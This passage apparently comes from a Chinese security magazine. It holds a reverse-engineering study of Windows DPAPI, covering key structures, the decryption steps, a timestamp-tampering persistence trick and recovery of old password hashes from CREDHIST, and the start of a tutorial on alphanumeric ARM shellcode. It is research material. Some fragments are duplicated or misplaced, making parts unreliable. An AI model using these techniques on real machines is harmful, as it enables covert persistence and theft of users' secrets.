- **The Pre key**：该密钥用于解密 Master key，并且由用户的密码推导得到。这一层的加密有两个目的：首先，它使得用户在修改密码时不再需要去修改所有的 DPAPI 密钥；其次，它使得 Windows 能够在不强迫用户修改密码的情况下更新 Master key。
- **The Master key**：这是一个 512 位的随机密钥，用于推导出所有的 DPAPI 数据块密钥。该密钥每隔三个月由 Windows 更新一次，该更新过程是被动的，仅在 DPAPI 被调用时发生。该被动过程意味着，所有之前产生的 Master key 需要被保存着……
- **The Blob key**：这个密钥直接用来加密和解密数据。这一层的加密可以使得每个程序增加另一个密码……因此不在磁盘上保存而是在数据块自身中保存。



图 2 DPAPI 的密钥推导过程概览

正如大家所看到的，整个加密过程依赖于由用户密码推导得到的 Pre key。这使得在用户密码改变时让用户仍能读取加密文件变得很难。要解决这个问题，最直接的方法就是用新的密码重新加密所有的 Master key……

## DPAPI 的关键数据结构

DPAPI 使用了两个主要的数据结构：数据块和 Master key 块。本文中，我们将研究一下这两个结构中的关键字段。

### 数据块结构

数据块是一个不透明的结构，其被 DPAPI 用于存储加密后的敏感用户数据以及解密这些数据的相关信息。该结构中的主要成员包括：

```c
struct _dpapiblob{
  DWORD cbProviders;
  GUID *arrProviders;
  DWORD cbKeys;
  GUID *arrKeys;
  DWORD ppszDataDescrSize;
  WCHAR *ppszDataDescr;
  DWORD idCipherAlgo;
  DWORD idHashAlgo;
  BYTE *pbSalt;
  BYTE *pbEncData;
  BYTE *pbHMAC;
};
```

```c
DWORD ppszDataDescrSize;
WCHAR *ppszDataDescr;
DWORD idCipherAlgo;
DWORD idHashAlgo;
BYTE *pbSalt;
BYTE *pbEncData;
BYTE *pbHMAC;
```

- **cbProviders**：加密模块的数目。在作者的测试中，仅发现数目为 1 的数据块。
- **arrProviders**：存放加密模块的 GUID 数组。该数组告诉 DPAPI 使用哪些加密模块来实现加密功能。我们认为该机制主要是为了让用户能够添加自己的加密方法以及可以用其他方法来代替默认方法……
- **ArrKeys**：用于加密数据的 Master key 的 ID。理论上，似乎可以有多个 Master key 来加密数据。
- **PpszDataDescr**：包含一些可选的描述字符。开发者可以通过 CryptProtectData() 函数来提供这些字符。如果开发者传入 NULL，则 DPAPI 将存入一个空的 UTF-16LE 编码串，即 ppszDataDescr=L""，ppszDataDescrSize=2。
- **idCipherAlgo**：用于加密数据的算法的 ID……例如，ID 0x6610 表示 AES 256bit（CALG_AES_256）。
- **idHashAlgo**：用于得到 blob key 的 hash 算法的 ID。
- **pbSalt**：用于运算得到密钥的一串近随机数。
- **pbEncData**：加密后的数据。
- **pbHMAC**：用于保证整个数据块完整性的 HMAC。

### Master key 块结构

Master key 数据块是一个由 DPAPI 使用的透明数据结构，其用于存储用户的长期 Master key 以及用于解密该 Master key 的相关数据。Windows 每三个月对其更新一次。Master key 主要包含 5 个不同的结构。

Master key 结构首先包含一个头部，用于标识该 Master key。该头部包含以下两个字段：

```c
struct masterkeyfileheader_s{
  DWORD dwMagic;
  WCHAR szKeyGUID[36];
};
```

在测试中，我们发现 dwMagic 的值一直为 2……另一种解释是，dwMagic 用于区分 DPAPI 和其他安全机制对特定 Master key 数据块的不同用法……

**szKeyGUID** 是一个 UTF-16LE 编码的串，表示 master key 的 ID。  
**Keys Info 结构**包含了 4 个字段，使 DPAPI 能够判断接下来的结构有多大：

```c
struct masterkeyfile_infos_s{
  DWORD dwUnknown;
  DWORD64 cbMasterKey;
  DWORD64 cbMysteryKey;
  DWORD dwHMACLen;
};
```

- dwUnknown：我们目前还不清楚该字段的目的。
- CbMasterKey：该字段包含 Master key 结构的大小。
- CbMysteryKey：该字段包含 Mystery key 结构的大小。
- DwHMACLen：该字段是 HMAC 的长度。当使用 HMAC_SHA1 算法时，其值为 0x014。

在这两个定长的结构之后是两个连续的可变长结构，其用于存储加密后的密钥以及解密用的参数。第一个结构用于存储 Master key 自身，而第二个用于存储所谓的 “Mystery key”。

这个 Mystery key 是我们逆向 DPAPI 过程中遇到的最吸引人的结构。在通常的加密/解密过程中，该密钥不起作用；我们没有发现使用该密钥的任何情况。该密钥存在的一个可能解释是向后兼容 Windows 2000，因为该密钥的大小（256 位）与 RC4 密钥的大小一致。

上述两个密钥存储在如下结构中：

```c
struct masterkey_block_s{
  DWORD dwMagic;
  BYTE  pbSalt[16];
  DWORD cbIteration;
  DWORD idMACAlgo;
  DWORD idCipherAlgo;
  BYTE  pbCipheredKey[];
};
```

- dwMagic：这又是一个包含确定值的字段。类似地，其可能是用于标识版本或标识用途。
- pbSalt：用于加密密钥的一些近随机数。
- cbIteration：该值表明了要通过多少轮 hash 来演算得到密钥。各种 Windows 版本中该字段的取值如表 1 所示。对于第二个密钥 Mystery key，在 Windows XP 和 Windows Vista 上该值为 1。
- idMACAlgo：所使用的 HMAC 算法的 ID。
- idCipherAlgo：用于加密密钥的算法的 ID。
- pbCipheredKey：包含加密后的密钥以及 HMAC。

Master key 结构以如下的尾注结构结束，用于标识加密 Master key 的用户登录密码：

```c
struct masterkeyfile_footer_s{
  DWORD dwMagic;
  BYTE  credHist[16];
};
```

- dwMagic：与之前的一样。
- credHist：该数据块加密时使用的密码的 GUID。该 GUID 与前述 CREDHIST 中的 GUID 一致。当用 SYSTEM 账户加密一个数据块时，GUID 值为 0x00，因为 SYSTEM 账户没有密码。

## 不同 Windows 版本中的 DPAPI 实现

在对 Windows 的每次修改中，微软都对 DPAPI 的工作机制做了重大的修改。这些修改如表 1 所示。Windows 7 中对算法做了大量修改。而且，根据我们的测试，在 Windows 7 上演算得到 Pre key 需要的计算轮数从 1 改成了另外一个值。然而这不会产生安全问题，因为暴力破解 NTLM 或 LANMAN 加密的密码比暴力破解 Master key 要快。

Windows XP 和 Windows Vista 使用安全性最强的版本的 3DES，其需要 3 个密钥。这个选择直接影响了加密/解密的性能，因为其迫使 Windows 要执行 PBKDF2 两次。PBKDF2 函数每次调用输出 20 字节的数据，而 Windows 需要 32 字节（3 个 8 字节的 3DES 密钥加上 8 字节的初始化向量）。

## 表 1 各个 Windows 版本中 DPAPI 实现的不同

| 项目 | XP | Vista | 7 |
|---|---:|---:|---|
| PKCS#5 PBKDF2 轮数 | 4000 | 24000 | 可变 |
| 对称算法 | 3DES-CBC | 3DES-CBC | AES256-CBC |
| HMAC 算法 | HMAC-SHA1 | HMAC-SHA1 | HMAC-SHA512 |

## 解密 DPAPI 数据块

我们已经知道了 DPAPI 是如何工作的，接下来我们一步一步地描述 Windows 是如何从用户密码 SHA1 和 DPAPI 数据块自身内容中提取/计算出解密 DPAPI 所需要的每份信息的。DPAPI 数据块内容的解密包括 5 个步骤，如图 3 所示。



- 1. 从数据块结构中提取 Master key 的 GUID。
- 2. 根据 Master key 的 GUID 找到正确的 Master key 结构并从中提取出 pbSalt 以及 PBKDF2 所迭代的次数；如果数据块使用用户某个旧密码加密，则 CREDHIST 需要被解密并从中提取出正确的 SHA1。
- 3. 根据正确的 SHA1、pbSalt 以及迭代次数来计算被用来加密 master key 的 Pre key。
- 4. 使用 Pre key 解密 Master key。Pre-key 被作为 PBKDF2 函数的一个种子来计算 3DES 所需要的 40 字节数据，因此 PBKDF2 函数需要被调用两次。
- 5. 再次使用 PBKDF2 计算 Blob key。微软使用了一个稍微修改过的版本的 HMAC。

## Backdooring DPAPI

每次 DPAPI 加密数据，都会在一个名叫 Preferred 的文件中寻找当前 Master key 的 GUID 并检查该密钥是否需要更新。如果该密钥不需要更新，则 DPAPI 就直接使用。否则，DPAPI 创建一个新的密钥，更新 Preferred 文件并使用新创建的这个密钥。Preferred 文件仅包含两个字段：Master key 的 GUID 以及一个时间戳，DPAPI 根据该时间戳来决定什么时候更新密钥。

时间戳字段没有用任何 HMAC 机制来保护，因此能够被任意地修改。攻击者可以使用这个验证上的不足来无限期地延长一个密钥的有效期，从而保证其在解密了当前的密钥后就能永远解密 DPAPI 数据块。虽然该技术没有给攻击者带来更多的特权，但是其使得他们能够一直隐蔽地获取计算机上的秘密。

正如前文所述，Windows 强制规定一个密钥的最长有效期为三个月。我们无法得知该参数是存储在某个地方还是静态地硬编码进系统。因此，为了延长密钥的生命周期，攻击者必须定期地更新时间戳。至少有 3 种方法能够实现这个目的而不触发杀毒软件和防火墙：攻击者可以添加一个程序，并添加进 Windows 的自启动项中，或添加为服务，或直接使用任务。

- dwMACLength：HMAC 的长度。
- bSID：一种特殊格式的用户 SID。
- dwComputerSID：计算机的 SID。
- dwAccountID：账号 ID。
- bData：包含加密后的密码和 HMAC。
- bPasswordID：与 Master key 中一样的密码 ID。

可以看出，CREDHIST 结构与数据块的结构十分相似，其中有两点特别值得一提：首先，用户 SID、计算机 SID 和账户 SID 是出现在 CREDHIST 文件中的，因为在解密数据块的时候需要用到它们。另外，bPasswordID 字段也出现在这个 Master key 结构中，其使得 Master key 被链接到指定的密码。从攻击者的角度来看，值得注意的是用户所有之前的 SHA1 hash 都是可以查看到的，并且都没有被混淆处理过。这使得攻击者可以并行地破解它们，并可以使用彩虹表来加快对其的恢复。

## Recovering Previous Passwords

如前文解释的，DPAPI 需要保存用户之前所有的密码 hash 以保证用户能够读取所有曾经用 DPAPI 加密过的数据。这些 hash 值被存储在 CREDHIST 文件中。每当用户修改其密码时，之前的 SHA1 hash 值就会被新的值加密，然后添加到 CREDHIST 文件的末尾。CREDHIST 中使用的加密算法与加密数据块的类似。CREDHIST 结构如下所示：

```c
Struct credhistentrys {
  DWORD dwMagic1; // 0x00000001
  DWORD idHashAlgo;
  DWORD dwRounds; // 0x00003AF0
  DWORD dwCipherAlgo; // 0x00006603
  BYTE bSID[12];
  DWORD dwComputerSID[3];
  DWORD dwAccountID;
  BYTE bData[28];
  BYTE bPasswordID[16];
};
```

- idHashAlgo：hash 函数的 ID。
- dwRounds：与 Master key 的结构类似，PBKDF2 演算得到密钥所需要执行的轮数。
- dwCipherAlgo：加密算法的 ID。
- dwDataLength：加密后数据的长度。

## DPAPick

为了验证我们对于 DPAPI 理论上的理解是否正确，作者用 C++/C# 实现了一个免费的离线解密工具 DPAPick（www.dpapick.com）。DPAPick 可以离线地解密 Master key 和数据块，并从 CREDHIST 文件中恢复所有之前的密码。除了 DPAPick，我们在自己的一个基于 GPU 的开源密码破解器 Nightingale 中实现了一个密码破解程序。我们需要这样的一个工具，因为标准的 SHA1 破解器没法对 CREDHIST 进行操作，密码在执行 HASH 操作前先被编码为了 UTF-16LE。目前，Nightingale 每 Tesla 1070C GPU 可以做大概 9.9×10^7 次的计算。

## 结语

作者在这篇文章中首次全面地展示了对 DPAPI 的逆向分析结果。本文还展示了能够离线解密 DPAPI 数据的工具 DPAPick。同时，利用对 DPAPI 内部设计知识的了解，我们找到了一个 DPAPI 后门的实现方法，并证明了一种十分有意义的攻击：恢复任何用户所有用过的密码。

前置知识：无

关键字：ARM、ShellCode、CPU

## 编写 ARM 处理器下的蠕子子码 ShellCode

文/Yves Younan　译/木木


随着移动设备的流行，ARM 处理器已成为世界上最广泛的 CPU 核心之一，ARM 处理器很好地处理了功耗和数据处理能力的关系，因此成为了嵌入式设备的最佳候选者，绝大多数移动电话和个人电子设备都配备了 ARM 处理器。随着网络的普及，移动设备都可以接入网络，在使用户可以享受更快捷、更方便的网络服务的同时，也带来了许多潜在的安全问题。像个人计算机一样，ARM 架构的设备很容易受到如缓冲区溢出和其他不正当滥用输入验证攻击。考虑到基于 ARM 架构的设备的广泛普及，这些设备的攻击将变得比现在更常见。对编写 ARM 处理器下的 ShellCode 的作者来说，最大的障碍是 ShellCode 在能到达脆弱的缓冲区前，必须通过一个或多个过滤验证。过滤验证只是做一些简单的输入验证，例如通过严格检查该输入，匹配一个特定的预定义模式。另外，入侵检测系统也增加了检测运算码，特别针对应用的攻击检测模式。以教学研究为目的，我们在这篇文章中描述如何编写基于 ARM 处理器下的 ShellCode。首先必须明确一点，就是我们的 ShellCode 必须是字母数字型的，因为字母数字型的 ShellCode 能通过更多的验证检查，而且能比纯数字型 ShellCode 传递更多的数据。对于 4 字节的 RISC 精简指令集来说，编写字母数字型的 ShellCode 不是一件容易的事。

## ARM 处理器简介

ARM 处理器是 RISC 处理器体系结构，有 16 个通用寄存器和一个状态寄存器。每一条 ARM 指令都是 4 个字节，因此必须保证 4 个字节全部是字母数字型。这与 x86 不同，因为 x86 的指令是不同长度的，这意味着在 ARM 上编写完全是字母数字型的 ShellCode 比在 x86 上困难。寄存器 R0 到 R12 完全是真正意义上的通用寄存器，没有专门的其他用途。R13 通常用作堆栈指针，保存当前处理器模式的堆栈栈顶。R14 又称为链接寄存器，保存调用程序的返回地址。R15 是程序计数器（PC），其内容是处理器要取的下一条指令的地址，不像 x86 架构，我们可以直接读写这个寄存器。

ARM 处理器有许多不同的版本，随着第 6 版的发行，增加了许多新指令。在这篇文章中我们尽可能写一个通用的 ShellCode，使其可以运行在所有的 ARM 版本上。为了达到这个目的，我们需要丢掉一些运行在特殊版本的 ARM 处理器上的指令。我们会清楚地说明哪些指令被丢弃，因为它们不是字母数字型，或者这条指令是由于兼容性的限制被丢弃。

## 协处理器简介

协处理器可以附属于 ARM 处理器。一个协处理器通过扩展指令集或提供配置寄存器来扩展内核处理功能。一个或多个协处理器可以通过协处理器接口与 ARM 内核相连。协处理器可以通过一组专门提供的 Load-store 类型接口的 ARM 指令来访问。协处理器也能通过提供一组专门的新指令来扩展指令集。这些新指令是在 ARM 流水线的译码阶段被处理的。

## 数据处理指令

数据处理指令用于对存放在寄存器中的数据进行操作，包括 move（传送）指令、算术指令、逻辑指令、比较指令和乘法指令。大多数数据处理指令可以使用桶形移位器对其中的一个操作数进行预处理。

ARM 指令的基本格式如下：

```asm
<opcode> <cond> {S} <Rd> <Rn> {<operand2>}
```

其中，opcode 为指令的助记符，如 LDR、STR 等；cond 为执行条件，如 EQ、NE 等；S 为是否影响 CPSR 寄存器的值；Rd 为目标寄存器；Rn 为第一个操作数寄存器；operand2 为第二个操作数。在上面的基本格式中，“<>”符号内的项是必需的，“{}”内的项是可选的。例如，`<opcode>` 是指令的助记符，这是必须要书写的；而 `<cond>` 为指令执行条件，是可以选择的，如果不书写，则使用默认条件 AL（无条件执行）。

例 1：把寄存器 R5 的内容复制到 R7 中去。执行后寄存器 R7 中的 8 被 5 覆盖。

```text
执行前：
R5=5
R7=8
Mov r7,r5   ; r7=r5

执行后：
R5=5
R7=5
```

在上面的例子中，operand2 是一个寄存器。其实 operand2 不仅可以表示寄存器或者立即数，也可以是一个在数据处理指令使用前被桶形移位器处理过的寄存器 Rm。数据处理指令是在算术逻辑单元 ALU 中完成的。ARM 处理器一个显著的特征就是，可以在操作数进入 ALU 之前，对操作数进行指定位数的左移或者右移。这种功能明显增强了许多数据处理操作的灵活性。

例 2：在寄存器 Rm 送入目标寄存器之前，首先对它执行逻辑左移（LSL）。这就像在标准 C 中对寄存器使用移位操作“<<”。Mov 指令把桶形移位器操作的结果放入寄存器 Rd。

```text
执行前：
R5=5
R7=8
Mov r7, r5, LSL #2   ; r7=5*4=(r5<<2)

执行后：
R5=5
R7=20
```

这个例子中，寄存器 R5 乘以 4 后把结果放到寄存器 R7 中。

### 第二个操作数

在 ARM 指令中，灵活地使用第二个操作数能够提高代码效率。第二个操作数的形式如下：

1. `#immed_8r` 常数表达式。该常数项对应 8 位图（pattern），即常数是由一个 8 位常数循环右移偶数位得到的。
2. `<Rm>` 寄存器方式。在寄存器方式下，操作数即为寄存器的数值。
3. `<Rm>, shift` 寄存器移位方式。将寄存器的移位结果作为操作数：  
   - `<Rm>, LSL #<shift_imm>` 立即数逻辑左移；  
   - `<Rm>, LSL <Rs>` 寄存器逻辑左移；  
   - `<Rm>, LSR #<shift_imm>` 立即数逻辑右移；  
   - `<Rm>, LSR <Rs>` 寄存器逻辑右移；  
   - `<Rm>, ASR #<shift_imm>` 立即数算术右移；  
   - `<Rm>, ASR <Rs>` 寄存器算术右移；  
   - `<Rm>, ROR #<shift_imm>` 立即数循环右移；  
   - `<Rm>, ROR <Rs>` 寄存器循环右移；  
   - `<Rm>, RRX` 扩展循环右移。

寄存器是指使用基址寄存器和一个桶形移位器来计算地址。

## Load-store 指令

Load-store 指令用于在存储器和处理器寄存器之间传输数据。共有 3 种类型的 Load-store 指令：单寄存器传输指令、多寄存器传输指令和交换指令，在这里重点讨论前两种。单寄存器传输指令用于把单一的数据传入或传出一个寄存器。支持的数据类型有字（32 位）、半字（16 位）和字节。指令说明如表 1 所示。

| 指令 | 说明 | 语义 |
|---|---|---|
| ldr | 把一个字装入一个寄存器 | Rd ← mem32[address] |
| str | 从一个寄存器保存一个字 | mem32[address] ← Rd |
| ldrb | 把 1 字节装入一个寄存器 | Rd ← mem8[address] |
| strb | 从一个寄存器保存 1 字节 | mem8[address] ← Rd |
| ldrh | 把一个半字装入寄存器 | Rd ← mem16[address] |
| strh | 从一个寄存器保存一个半字 | mem16[address] ← Rd |
| ldrsb | 把一个有符号字节装入寄存器 | Rd ← signExtend(mem8[address]) |
| ldrsh | 把一个有符号半字装入寄存器 | Rd ← signExtend(mem16[address]) |

单寄存器 Load-store 指令的寻址方式：ARM 指令集提供了几种寄存器寻址的不同方式，这些方式以下面几种变址模式进行组合：回写前变址（preindex with writeback）、前变址（preindex）及后变址（postindex）。如表 2 所示。

| 变址模式 | 数据 | 基址寄存器 | 示例 |
|---|---|---|---|
| 回写前变址 | Mem[base+offset] | 基址寄存器加上偏移 | LDR r0,[r1,#4]! |
| 前变址 | Mem[base+offset] | 不变 | LDR r0,[r1,#4] |
| 后变址 | Mem[base] | 基址寄存器加上偏移 | LDR r0,[r1],#4 |

回写前变址和前变址的区别是：回写前变址在计算出新的地址后要用新的地址更新基址寄存器的内容，然后再利用新的基址寄存器进行寻址；而前变址方式虽然也利用对基址寄存器的改变值进行寻址，但基址寄存器在操作之后仍然保持原值。后变址和回写前变址类似，也要更新基址寄存器的内容，但后变址方式先利用基址寄存器的原值进行寻址操作，然后再更新基址寄存器。对于一条特定的 load-store 指令，其寻址模式依赖于其所属的指令类。如表 3 所示，列出了 32 位字（word）和无符号字节（unsigned byte）的 Load-store 指令所支持的寻址模式。有符号的偏移量或寄存器用 “+/-” 表示，表示相对一个基址寄存器 Rn 的正偏移量或负偏移量。基址寄存器是一个指向字节的指针，偏移量表示偏移的字节数。寻址方式中的立即数说明地址是通过基址寄存器和一个编码在指令中的 12 位偏移量计算而得的；寄存器说明地址是通过基址寄存器和另一个特定寄存器中的内容计算而得；比例寄存器是指使用基址寄存器和一个桶形移位器来计算地址。

| 寻址方式（addressing） | 语法 |
|---|---|
| 立即数偏移前变址寻址 | [Rn,# +/- offset_12] |
| 寄存器偏移前变址寻址 | [Rn,+/-Rm] |
| 比例寄存器偏移前变址寻址 | [Rn,+/-Rm,shift_imm] |
| 立即数偏移回写前变址寻址 | [Rn,# +/- offset_12]! |
| 寄存器偏移回写前变址寻址 | [Rn,+/-Rm]! |
| 比例寄存器偏移回写前变址寻址 | [Rn,+/-Rm,#shift_imm]! |
| 立即数后变址寻址 | [Rn],+/-offset_12 |
| 寄存器后变址寻址 | [Rn],+/-Rm |
| 比例寄存器后变址寻址 | [Rn],+/-Rm,shift #shift_imm |

多寄存器传送指令（多次装载/存储的 Load-store 指令）可以用一条指令传送多个寄存器的值到内存，或者从内存取数据到多个寄存器。传输是从一个指向存储器的基址寄存器 Rn 开始的。如表 4 所示，列出了多寄存器 load-store 指令的不同寻址模式，其中 N 是操作寄存器的个数。

| 寻址模式 | 描述 | 起始地址 | 结束地址 | Rn |
|---|---|---|---|---|
| IA | 执行后增加 | Rn | Rn+4*N-4 | Rn+4*N |
| IB | 执行前增加 | Rn+4 | Rn+4*N | Rn+4*N |
| DA | 执行后减少 | Rn-4*N+4 | Rn | Rn-4*N |
| DB | 执行前减少 | Rn-4*N | Rn-4 | Rn-4*N |

任何当前寄存器组的子集都可以使用多寄存器 Load-store 指令与存储器进行数据交换。基址寄存器 Rn 决定目标或者源地址，可以通过选择使用 Rn 后缀字符 “!” 来确定 Rn 的值是否随着传送而改变，就像使用回写前变址寻址的单寄存器指令一样。

## 条件执行

条件执行控制内核是否会执行一条指令。大多数指令都有一个条件属性，再根据条件标志位的情况，决定内核是否执行该指令。在执行前，处理器比较该条件属性和 CPSR 状态寄存器的条件标志位；如果匹配，指令就被执行；否则指令被忽略。条件属性作为指令助记符的后缀被编码进指令。如表 5 所示，列出条件执行代码助记符。若没有条件符号，则默认为无条件（AL）执行。

| 助记符 | 名称 | 条件标志位 |
|---|---|---|
| EQ | 相等 | Z |
| NE | 不相等 | 非 Z |
| HI | 无符号数大于 | C 且非 Z |
| LS | 无符号数小于或等于 | 非 C 或 Z |
| GE | 有符号数大于或等于 | N=V |
| LT | 有符号数小于 | N≠V |
| GT | 有符号数大于 | 非 Z 且 N=V |
| LE | 有符号数小于或等于 | Z 或 N≠V |
| AL | 无条件执行 | 忽略 |

## Thumb 指令集

Thumb 把 32 位 ARM 指令集的一个子集进行编码，成为一个 16 位的指令集。在 16 位外部数据总线宽度下，在 ARM 处理器上使用 Thumb 指令的性能要比使用 ARM 指令的性能更好；而在 32 位外部数据总线宽度下，使用 Thumb 指令的性能要比使用 ARM 指令的性能差。相对于 ARM 指令集，使用 Thumb 指令集可获得更高的代码密度，在存储器受限的嵌入式系统中（如移动电话、PDA 等）代码密度非常重要。

平均而言，对于同一个程序，使用 Thumb 指令实现所需的存储空间要比等效 ARM 指令实现少约 30%。虽然 Thumb 指令的实现使用了更多指令，但其占用总存储空间较小。代码密度是 Thumb 指令集的主要优势之一。

因为 Thumb 指令只有两个字节，所以更容易满足编写字母数字 ShellCode 的要求。本文讨论如何在 ShellCode 中实现从 ARM 模式进入 Thumb 模式，以及在 Thumb 模式下运行后的返回问题。与 ARM 指令不同，Thumb 指令不支持条件执行。

## 数字字母型 ShellCode

### 一、数字字母位模式

代码编写者常遇到的问题是：代码在触发溢出前，必须经过编码才能通过输入验证。在多数情况下，数字字符无需编码即可通过验证，因此用数字字母混合编写 ShellCode 往往是必要并且常见的选择。

1. 第 7 位必须设置为 0；
2. 第 5 位或第 6 位必须设置为 1；
3. 如果第 5 位被设置而第 6 位没有，则第 4 位也必须设置。

这些限制并未消除所有非字母数字字符，但可作为经验法则快速排除大量不符合要求的指令。每条指令都应检查其在任何情况下是否满足这些位模式。

### 二、指令的筛选

本部分讨论在保证 ShellCode 为字母数字型的前提下可以使用哪些指令。

### 1、数据处理指令的筛选

- (1) `#immediate`  
  
因为可以完全控制立即数 `imm_8`，所以可以保证其为数字字母型。

- (2) `<Rm>`  
  
因为第 5 位和第 6 位都是 0，因此这种寻址方式不能用于数字字母型 ShellCode。

- (3) `<Rm>, LSL #<shift_imm>`  
  
与上面类似，第 5 位和第 6 位均为 0，因此不能用。

- (4) `<Rm>, LSL <Rs>`  
  
第 5 位和第 6 位都是 0，因此不能用。

- (5) `<Rm>, LSR #<shift_imm>`  
  
第 6 位为 0，且第 5 位为 1，导致不满足限制条件，因此不能用。

- (6) `<Rm>, LSR <Rs>`  
  
第 6 位为 0，第 5 位和第 4 位为 1，可用；但寄存器 `Rm` 必须小于 `R10`。

- (7) `<Rm>, ASR #<shift_imm>`  
  
第 6 位为 1，因此这种方式的唯一限制是 `Rm` 不能为 `R0`。

- (8) `<Rm>, ASR <Rs>`  
  
这种位模式是数字字母型，并且允许任意寄存器充当 `Rm`。

- (9) `<Rm>, ROR #<shift_imm>`  
  
同（8）。

- (10) `<Rm>, ROR <Rs>`  
  
第 6、5、4 位都是 1；`Rm` 必须小于 `R11`。

- (11) `<Rm>, RRX`  
  
同（8）。

### 2、单寄存器 Load-store 寻址指令筛选

- (1) `[<Rn>, #+/-<imm_12>]<c>`  
  
因为我们可以完全控制立即数 `imm_12`，所以我们可以保证它是数字字母型。

- (2) `[<Rn>, #+/-<Rm>]<I>`  
  
这种处理模式不能代表数字字母型。

- (3) `[<Rn>, #+/-<Rm>, <shift> #<shift_imm>]<I>`  
  
